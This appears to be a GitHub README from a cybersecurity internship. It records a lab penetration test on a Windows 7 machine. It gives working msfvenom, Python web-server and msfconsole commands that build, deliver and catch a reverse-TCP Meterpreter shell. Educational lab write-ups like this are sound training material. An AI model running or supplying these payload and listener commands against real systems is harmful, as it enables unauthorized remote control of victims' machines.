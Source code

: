 # ACMEGRADE Internship Final Assessment
## Hack into Windows Machine using Metasploit

This repository contains the final project assessment report from the **Acmegrade Internship, May 2024**. The project successfully demonstrated a controlled penetration test scenario to exploit a vulnerable Windows 7 machine using the *Metasploit Framework*.

---

## 🎯 Project Aim

The primary objective of this project was to gain remote access to a **Windows 7** machine (victim) from a **Kali Linux** machine (attacker) by leveraging the **Metasploit Framework** and a **Meterpreter** payload.

## 🛠️ Tools and Technologies Used

| Category | Tool/Technology | Role in Project |
| :--- | :--- | :--- |
| **Attacker OS** | Kali Linux | The penetration testing machine. |
| **Target OS** | Windows 7 | The victim machine that was compromised. |
| **Exploitation** | Metasploit Framework | Used to set up the listener (`multi/handler`) and manage the remote session. |
| **Payload Generation** | `msfvenom` | Used to generate the custom, malicious executable (`venom.exe`). |
| **Delivery Mechanism** | Python `http.server` | Used to quickly host and transfer the payload (`venom.exe`) to the target machine over port `8080`. |

## ⚙️ Execution Summary (Procedure)

### Step 1: Information Gathering

The IP addresses of both machines were identified:

* **Attacker IP (Kali Linux):** `35.35.35.4`
    * *Command:* `ifconfig eth0`
* **Victim IP (Windows 7):** `35.35.35.8`
    * *Command:* `ipconfig`

### Step 2: Weaponization

The **`msfvenom`** command was used to generate the payload:

```bash
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 LHOST=35.35.35.4 LPORT=3535 -f exe -o venom.exe
```

* **Payload:** `windows/meterpreter/reverse_tcp`. This payload creates a connection from the victim back to the attacker.

* **LHOST:** Attacker IP address (`35.35.35.4`).

* **LPORT:** Port for the reverse connection (`3535`).

* **Output:** `venom.exe`


### Step 3: Delivery

1. A Python web server was hosted on the attacker (Kali Linux) machine:

```bash
python -m http.server 8080
```

2. The target (Windows 7) accessed `http://35.35.35.4:8080` and downloaded the `venom.exe` payload.


### Step 4: Exploitation

1. A listener was started on the Kali machine using `msfconsole`:

```bash
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 35.35.35.4
set LPORT 3535
run
```

2. The `venom.exe` payload was executed on the Windows 7 target machine.

3. Upon execution, a **Meterpreter session** was successfully opened on the Kali machine.


The target was successfully compromised , allowing post-exploitation commands like `sysinfo` and `ls` to be run on the victim system.

## ✅ Conclusion

The project successfully demonstrated the process of exploiting a vulnerable Windows 7 machine using a Meterpreter payload generated by `msfvenom`. Remote access was gained and controlled through the Metasploit Framework, validating the effectiveness of the penetration testing tools and techniques used.

---

#### Submitted by: Mohammed Abdul Raqeeb  
#### Date: `10-08-2024`
